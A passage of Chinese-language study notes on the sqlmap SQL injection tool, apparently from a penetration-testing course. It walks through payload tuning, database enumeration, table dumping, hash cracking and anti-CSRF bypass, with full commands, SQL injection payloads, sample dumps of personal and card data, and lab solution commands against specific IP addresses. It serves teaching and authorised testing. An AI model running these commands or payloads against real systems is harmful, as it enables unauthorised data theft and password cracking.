Content-Encoding: gzip
Content-Length: 914
Connection: close
Content-Type: text/html; charset=UTF-8
URI: http://www.example.com:80/?id=1

<!DOCTYPE html>
<html lang="en">
...SNIP...

```

从上面的输出可以看出， /tmp/traffic.txt 文件现在包含了所有已发送和已接收的 HTTP 请求。因此，我们现在可以手动检查这些请求，以找出问题所在。

### 详细输出

另一个有用的标志是 `-v`选项，它可以提高控制台输出的详细程度：

```shell
$ sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 16:17:40 /2020-09-24/

[16:17:40] [DEBUG] cleaning up configuration parameters
[16:17:40] [DEBUG] setting the HTTP timeout
[16:17:40] [DEBUG] setting the HTTP User-Agent header
[16:17:40] [DEBUG] creating HTTP requests opener object
[16:17:40] [DEBUG] resolving hostname 'www.example.com'
[16:17:40] [INFO] testing connection to the target URL
[16:17:40] [TRAFFIC OUT] HTTP request [#1]:
GET /?id=1 HTTP/1.1
Host: www.example.com
Cache-control: no-cache
Accept-encoding: gzip,deflate
Accept: */*
User-agent: sqlmap/1.4.9 (http://sqlmap.org)
Connection: close

[16:17:40] [DEBUG] declared web page charset 'utf-8'
[16:17:40] [TRAFFIC IN] HTTP response [#1] (200 OK):
Date: Thu, 24 Sep 2020 14:17:40 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 914
Connection: close
Content-Type: text/html; charset=UTF-8
URI: http://www.example.com:80/?id=1

<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="description" content="">
  <meta name="author" content="">
  <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
  <title>SQLMap Essentials - Case1</title>
</head>

<body>
...SNIP...
```

正如我们所看到的，`-v 6`选项会将所有错误和完整的 HTTP 请求直接打印到终端，以便我们可以实时跟踪 SQLMap 正在执行的所有操作。

### 使用代理

我们可以使用 `--proxy` 选项将所有流量重定向到中间人代理（例如 Burp ）。这将把所有 SQLMap 流量路由到 Burp ，以便我们稍后可以手动检查所有请求、重复这些请求，并使用 Burp 的所有功能来处理这些请求：



## 攻击调整

在大多数情况下，使用提供的目标信息，SQLMap 即可直接运行。尽管如此，仍有一些参数可以精细调整 SQL 注入尝试，以辅助 SQLMap 在检测阶段更好地工作。
发送到目标的每一个 Payload 都由两部分组成：
攻击向量（vector）
（例如：UNION ALL SELECT 1,2,VERSION()）
是 Payload 的核心部分，包含要在目标端执行的有效 SQL 代码。
边界符（boundaries）
（例如：'<vector>-- -）
由前缀和后缀(prefix and suffix)组成，用于将攻击向量正确注入到存在漏洞的 SQL 语句中。

### Prefix/Suffix  前缀/后缀

在极少数情况下，需要特殊的前缀和后缀值，而常规的 SQLMap 运行无法涵盖这些值。

对于此类情况，可以使用如下的 `--prefix` 和 `--suffix` 选项：

```shell
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

这将导致所有向量值被静态前缀 `%')) `和后缀 `-- - `包围起来。

例如，如果目标端的漏洞代码是：

向量 `UNION ALL SELECT 1,2,VERSION()` ，以前缀 `%'))` 和后缀 `-- - `为界，将在目标端生成以下（有效的）SQL 语句：

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

### Level/Risk  风险等级/风险

默认情况下，SQLMap 会组合使用一组预定义的最常用边界符（即前缀 / 后缀对），以及在目标存在漏洞时成功率较高的攻击向量。
尽管如此，用户仍可以使用 SQLMap 中已内置的、规模更大的边界符与攻击向量集合。

针对这类需求，应使用 --level 和 --risk 参数：

* 参数 `--level`（取值 1–5，默认为 1）会根据攻击预期成功率扩展所使用的攻击向量与边界（即预期成功率越低，所需等级越高）。--level 越高，SQLMap 尝试的注入 payload 越多、越复杂、越难，但也越容易测出难搞的注入漏洞。
* 参数 `--risk`（取值 1–3，默认为 1）会根据在目标端引发问题的风险（如数据库数据丢失或拒绝服务风险）扩展所使用的攻击向量集合。数字越大，SQLMap 会使用更猛、更危险的 Payload

要检查不同 `--level `和 `--risk` 值下使用的边界和有效载荷之间的差异，最佳方法是使用 -v 选项设置详细级别。在详细等级 3 或更高等级下（如 -v 3），会显示包含所使用攻击载荷 `[PAYLOAD] `的相关信息，示例如下：

```shell
$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

另一方面，使用默认 `--level`值时，有效载荷的边界范围要小得多：

```shell
$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

至于攻击向量，我们可以按如下方式比较所使用的有效载荷：

```shell
$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...

```

```shell
$ sqlmap -u www.example.com/?id=1 --level=5 --risk=3

...SNIP...
[14:46:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
...SNIP...
[14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[14:46:05] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
...SNIP...
[14:46:05] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
[14:46:06] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:46:06] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
...SNIP...
```

至于有效载荷的数量，默认情况下（即 --level=1 --risk=1 ），用于测试单个参数的有效载荷数量最多为 72 个，而在最详细的情况下（ --level=5 --risk=3 ），有效载荷的数量增加到 7,865 个。

由于 SQLMap 已经优化为检测最常见的边界与攻击向量，建议普通用户不要修改这些参数，因为这会显著降低整个检测过程的速度。尽管如此，在某些特殊的 SQL 注入漏洞场景中（例如登录页面），必须使用 OR 类型的攻击载荷，这时我们就需要手动提高风险等级。
这是因为在默认运行时，OR 载荷本身就具有危险性—— 底层存在漏洞的 SQL 语句（尽管不常见）可能正在执行修改数据库内容的操作（例如 DELETE 或 UPDATE）。

### 高级调整

为了进一步微调检测机制，SQLMap 提供了一系列丰富的开关和选项。通常情况下，SQLMap 不需要使用这些开关和选项。但是，我们仍然需要熟悉它们，以便在需要时能够使用。

#### 状态码

例如，当处理包含大量动态内容的大型目标响应时，可以利用 TRUE 和 FALSE 响应之间的细微差别进行检测。如果 TRUE 和 FALSE 响应之间的区别体现在 HTTP 状态码中（例如， TRUE 为 200 ， FALSE 为 500 ），则可以使用 ` --code` 选项将 TRUE 响应的检测限定为特定的 HTTP 状态码（例如， `--code=200` ）。

#### Titles

如果可以通过检查 HTTP 页面标题来查看响应之间的差异，则可以使用 `--titles` 开关来指示检测机制根据 HTML 标签 <title> 的内容进行比较。

#### Strings

如果某个特定的字符串值出现在 TRUE 响应中（例如 success ），但在 FALSE 响应中不存在，则可以使用 -`-string` 选项，仅根据该单个值的出现来固定检测（例如 --string=success ）。

#### Text-only

当处理大量隐藏内容时，例如某些 HTML 页面的行为标签（如<script>、<style>、<meta>等），我们可以使用开关参数 `--text-only`。
该开关会移除所有 HTML 标签，仅基于纯文本内容（也就是页面上能看见的内容） 来进行页面对比判断。

Technique

在某些特殊情况下，我们需要将使用的有效载荷类型限定为特定类型。例如，如果基于时间的盲注有效载荷导致响应超时等问题，或者我们希望强制使用特定的 SQL 注入有效载荷类型，则可以使用 `--technique` 选项指定要使用的 SQL 注入技术。

例如，如果我们想跳过基于时间的盲注和堆叠 SQLi 有效负载，而只测试基于布尔值的盲注、基于错误的和 UNION 查询有效负载，我们可以使用 ` --technique=BEU` 指定这些技术。

#### UNION SQLi 调优

在某些情况下， UNION SQLi 攻击需要用户提供额外信息才能生效。如果我们能够手动找到易受攻击的 SQL 查询的确切列数，则可以使用 `--union-cols `选项将此数字提供给 SQLMap（例如 --union-cols=17 ）。如果 SQLMap 使用的默认“虚拟”填充值（ `NULL` 和随机整数）与易受攻击的 SQL 查询结果中的值不兼容，我们可以指定一个替代值（例如 ` --union-char='a'` ）。

此外，若需要在 UNION 查询的末尾以 FROM <table> 的形式附加表名（例如在 Oracle 数据库场景下），可通过 `--union-from `参数进行设置（示例：`--union-from=users`）。

无法自动使用正确的 FROM 附加子句，可能是因为在使用该子句之前**无法检测出数据库管理系统（DBMS）的类型**。

### 案例

检测并利用（OR）GET 参数 id 中的 SQL 注入漏洞

您可以使用“-T flag5”选项仅从所需的表中导出数据。您可以使用“--no-cast”标志来确保获取正确的内容。您也可以尝试多次运行该命令，以确保正确捕获了内容。

`sqlmap -u 'http://154.57.164.81:31147/case5.php?id=1*' --level=5 --risk=3 -T flag5 --no-cast --batch --dump`

案例 6 —— 非标准边界

检测 GET 参数 col 中由于使用了非标准边界而产生的 SQL 注入漏洞，并理解其成因

`sqlmap -r case5.req --batch -p 'id' --level=5 --risk=3 -dbms MySQL --dbs --flush-session`

案例 7

尝试统计页面输出中的列数，并将它们指定给 sqlmap。

`sqlmap -r case7.req --batch -dbms MySQL --union-cols=5 -D testdb -T flag7 --dump --no-cast --flush-session`


# 数据库枚举

枚举是 SQL 注入攻击的核心部分，它在成功检测并确认目标 SQL 漏洞可被利用之后立即执行。它包括查找和检索（即窃取）易受攻击数据库中所有可用的信息。

为此，SQLMap 为所有支持的数据库管理系统（DBMS）预设了一组查询语句，每条语句对应一段需要在目标端执行的 SQL，用于获取所需内容。例如，下面是适用于 MySQL 数据库的 queries.xml 文件中的查询片段：

```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
        <users>
            <inband query="SELECT grantee FROM INFORMATION_SCHEMA.USER_PRIVILEGES" query2="SELECT user FROM mysql.user" query3="SELECT username FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>
    ...SNIP...
```

例如，如果用户想要获取基于 MySQL 数据库的目标版本标识信息（使用参数` --banner）`，SQLMap 会使用 VERSION() 查询来实现该目的。
如果需要获取当前用户名（使用参数` --current-user`），则会使用 CURRENT_USER() 查询。
另一个例子是获取所有用户名（对应标签 <users>）。根据场景不同，会使用两种查询：
标记为 inband（显式注入） 的查询用于所有非盲注场景（如联合查询注入、报错注入），在这些场景下，查询结果可以直接在页面响应中获取。
而标记为 blind（盲注） 的查询则用于所有盲注场景，在这些场景下，数据必须逐行、逐列、逐位地慢慢获取。

## DBMS基本数据枚举

通常，在成功检测出 SQL 注入漏洞后，我们就可以开始从数据库中枚举基础信息，例如存在漏洞的目标主机名（`--hostname`）、当前用户名（--current-user）、当前数据库名（`--current-db`）或密码哈希值（`--passwords`）。
如果之前已经识别出注入点，SQLMap 会跳过注入检测步骤，直接开始数据库信息枚举过程。
枚举通常从获取以下基础信息开始：
数据库版本标识（参数 --banner）
当前用户名（参数` --current-user`）
当前数据库名（参数 `--current-db`）
检查当前用户是否拥有 DBA（管理员）权限（参数 `--is-dba`）
下面这条 SQLMap 命令可以一次性完成以上所有操作：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

从上面的例子中我们可以看出，数据库版本相当旧（MySQL 5.1.41 - 2009 年 11 月），当前用户名是 `root `，而当前数据库名称是` testdb `。

## 所有数据库名的枚举

获取所有数据库名的 SQLMap 命令：

`sqlmap -u "目标URL" --dbs`
`--dbs `获取所有数据库（databases）名称

## 表的枚举

在大多数常见场景下，在获取当前数据库名（例如 testdb）之后，可通过使用 --tables 选项并通过 -D testdb 指定数据库名来获取表名，具体如下：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

在找到感兴趣的表名之后，可以使用 `--dump` 选项并通过 `-T users` 指定表名来获取其内容，具体如下：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+
[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'

```

控制台输出显示，该表以格式化的 CSV 格式转储到本地文件 users.csv 中。

提示：除了默认的 CSV 之外，我们还可以使用选项 `--dump-format` 将输出格式指定为 HTML 或 SQLite，以便我们稍后可以在 SQLite 环境中进一步调查数据库。

在处理包含大量列或行的大型数据表时，我们可以使用 `-C` 参数指定要获取的列（例如只获取 name 和 surname 列），具体如下：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

要根据表中的序号缩小行的范围，我们可以使用` --start `和 `--stop` 选项指定行（例如，从第 2 个条目开始到第 3 个条目），如下所示：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```


## 条件枚举

如果需要根据已知的 WHERE 条件（例如 name LIKE 'f%' ）检索某些行，我们可以使用 `--where `选项，如下所示：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

## 完整数据库枚举

我们不必逐表获取内容，而是可以完全不使用 `-T `选项（例如` --dump -D testdb`），直接获取指定数据库中的所有表。
只需使用` --dump `参数而不通过 -T 指定表，就会导出当前数据库的所有内容。
而使用 `--dump-all `参数时，则会导出所有数据库中的全部内容。

在这种情况下，建议用户也添加` --exclude-sysdbs `开关（例如` --dump-all --exclude-sysdbs `），这将指示 SQLMap 跳过从系统数据库检索内容，因为渗透测试人员通常对此不太感兴趣。


### 案例

为了更高效，请尝试指定数据库和表名给sqlmap。


## 高级数据库枚举

### 数据库架构枚举

如果我们想要检索所有表的结构，以便全面了解数据库架构，我们可以使用 `--schema `开关：

```
$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

### 搜索数据

当处理包含大量表和列的复杂数据库结构时，我们可以使用 `--search` 选项来**搜索**所需的数据库、表和列。该选项允许我们使用 `LIKE` 运算符来搜索标识符名称。

例如，如果我们要查找所有包含关键字 **user** 的表名，可以按如下方式` --search -T 表名` 运行 SQLMap：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

使用`--search -C 列名` 搜索相关的列名，示例如下：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

### 密码枚举与破解

一旦我们找到包含密码的表（例如 master.users ），我们就可以使用 -T 选项检索该表，如前所述：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                   
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                   
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                  
Database: master                                                                                                                                                                                    
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
```

从前面的例子中我们可以看到，SQLMap 具备自动破解密码哈希值的功能。一旦检索到任何类似于已知哈希格式的值，SQLMap 就会提示我们对找到的哈希值执行基于字典的攻击。

哈希破解攻击以多进程方式执行，具体取决于用户计算机上的可用核心数。目前，SQLMap 已实现对 31 种不同哈希算法的破解支持，并内置一个包含 140 万条记录的字典（这些记录是多年来从公开的密码泄露事件中收集而来）。因此，如果密码哈希值并非随机生成，SQLMap 很有可能自动破解它。

### 数据库用户密码枚举和破解

我们还可以尝试转储包含数据库特定凭据（例如，连接凭据）的系统表的内容。为了简化整个过程，SQLMap 提供一个专门用于此类任务的特殊开关 `--passwords` ：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```

提示：'--all' 开关与 '--batch' 开关结合使用，将自动在目标本身上执行整个枚举过程，并提供完整的枚举详细信息。

这意味着所有可访问的数据都将被检索，这可能会导致长时间的运行。我们需要手动在输出文件中查找所需数据。

### 案例

列名中包含“style”一词的列叫什么名字？（案例1）

`$ sqlmap -u 'http://154.57.164.83:30606/case1.php?id=1*' --search -C style  --batch`

# 高级SQLMAP使用

## 绕过 Web 应用程序保护

理想情况下，目标端不会部署任何保护措施，因此无法阻止自动攻击。否则，针对此类目标运行任何类型的自动化工具都会遇到问题。不过，SQLMap 内置了许多机制，可以帮助我们成功绕过此类保护措施。

## 反 CSRF 令牌绕过

防止使用自动化工具的第一道防线是在所有 HTTP 请求中加入反 CSRF（即跨站请求伪造）令牌，特别是那些因填写网页表单而生成的请求。

最简单来说，在这种场景下，每个 HTTP 请求都应携带一个**（有效）令牌值**，且该值只有在用户实际访问并使用过页面时才会存在。
这一安全机制的初衷，是为了防范恶意链接攻击—— 在这类攻击中，不知情的已登录用户仅点开链接，就会产生非预期后果（例如自动打开管理员页面，并添加预设凭据的新用户）。但该安全特性也无意间增强了应用对（非预期）自动化工具的防御能力。

不过，SQLMap 提供了一些选项来帮助绕过反 CSRF 保护。其中最重要的选项是 `--csrf-token` 。通过指定令牌参数名称（该名称应该已经包含在提供的请求数据中），SQLMap 将自动尝试解析目标响应内容并查找新的令牌值，以便在下一个请求中使用。

此外，即使用户没有通过 --csrf-token 明确指定令牌名称，如果提供的参数之一包含任何常见前缀（即 csrf 、 xsrf 、 token ），系统也会提示用户是否在后续请求中更新该令牌：

```shell
$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

## 唯一值绕过

在某些情况下，Web 应用可能只要求在预定义参数中提供唯一值。这种机制与上文描述的防 CSRF 技术类似，区别在于它不需要解析网页内容。
因此，只需确保每个请求对某个预定义参数都带有一个唯一值，Web 应用就能轻松防范 CSRF 尝试，同时抵御部分自动化工具。
对此应使用参数` --randomize`，指定需要在发送前进行随机化处理的参数名：

```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185

```

## 计算型参数绕过

另一种类似的机制是：Web 应用要求某个参数必须根据其他参数的值计算得出合法的取值。最常见的情况是，一个参数值必须是另一个参数的消息摘要（例如 h=MD5(id)）。
要绕过这种校验，需要使用` --eval `选项，它可以在请求发送给目标之前执行一段合法的 Python 代码来动态计算参数值。

```shell
$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
